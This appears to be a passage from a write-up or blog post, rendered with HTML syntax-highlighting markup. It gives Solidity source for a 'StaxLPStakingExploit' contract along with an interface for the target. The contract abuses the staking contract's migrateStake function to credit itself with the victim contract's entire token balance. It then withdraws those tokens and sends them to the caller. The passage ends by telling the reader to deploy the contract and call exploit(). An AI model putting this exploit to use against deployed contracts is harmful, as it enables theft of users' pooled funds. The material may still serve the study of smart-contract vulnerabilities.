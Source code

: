 <span style="color:rgb(51, 51, 51); font-weight:700;">interface</span> IStaxLPStaking {
  <span style="color:rgb(51, 51, 51); font-weight:400;"><span style="color:rgb(51, 51, 51); font-weight:700;">function</span> <span style="color:rgb(153, 0, 0); font-weight:700;">migrateStake</span>(<span style="color:rgb(51, 51, 51); font-weight:400;">address oldStaking, uint256 amount</span>) <span style="color:rgb(153, 0, 0); font-weight:700;">external</span></span>;

  <span style="color:rgb(51, 51, 51); font-weight:400;"><span style="color:rgb(51, 51, 51); font-weight:700;">function</span> <span style="color:rgb(153, 0, 0); font-weight:700;">withdrawAll</span>(<span style="color:rgb(51, 51, 51); font-weight:400;">bool claim</span>) <span style="color:rgb(153, 0, 0); font-weight:700;">external</span></span>;
}

contract StaxLPStakingExploit {
  IStaxLPStaking <span style="color:rgb(51, 51, 51); font-weight:700;">private</span> immutable stakingContract;
  IERC20 <span style="color:rgb(51, 51, 51); font-weight:700;">private</span> immutable token;

  <span style="color:rgb(153, 153, 136); font-weight:400;">// Deployment will be done in the test, see below</span>
  <span style="color:rgb(51, 51, 51); font-weight:400;"><span style="color:rgb(153, 0, 0); font-weight:700;">constructor</span>(<span style="color:rgb(51, 51, 51); font-weight:400;">address _stakingContract, address _token</span>)</span> {
    stakingContract = IStaxLPStaking(_stakingContract);
    token = IERC20(_token);
  }

  <span style="color:rgb(51, 51, 51); font-weight:400;"><span style="color:rgb(51, 51, 51); font-weight:700;">function</span> <span style="color:rgb(153, 0, 0); font-weight:700;">exploit</span>(<span style="color:rgb(51, 51, 51); font-weight:400;"></span>) <span style="color:rgb(153, 0, 0); font-weight:700;">public</span> </span>{
    <span style="color:rgb(153, 153, 136); font-weight:400;">// Use the vulnerability to stake the entire balance of the StaxLPStaking</span>
    <span style="color:rgb(153, 153, 136); font-weight:400;">// contract</span>
    uint256 stakingContractBalance = token.balanceOf(address(stakingContract));
    stakingContract.migrateStake(address(<span style="color:rgb(0, 134, 179); font-weight:400;">this</span>), stakingContractBalance);

    <span style="color:rgb(153, 153, 136); font-weight:400;">// Now just withdraw the tokens</span>
    stakingContract.withdrawAll(<span style="color:rgb(0, 128, 128); font-weight:400;">false</span>);

    <span style="color:rgb(153, 153, 136); font-weight:400;">// And transfer them to our EOA</span>
    token.transfer(msg.sender, stakingContractBalance);
  }

  <span style="color:rgb(153, 153, 136); font-weight:400;">// Our `migrateWithdraw()` function does nothing</span>
  <span style="color:rgb(51, 51, 51); font-weight:400;"><span style="color:rgb(51, 51, 51); font-weight:700;">function</span> <span style="color:rgb(153, 0, 0); font-weight:700;">migrateWithdraw</span>(<span style="color:rgb(51, 51, 51); font-weight:400;">address, uint256</span>) <span style="color:rgb(153, 0, 0); font-weight:700;">external</span> </span>{}
}
</code></pre>

Now, all we have to do is deploy this function and call the `exploit()` function.
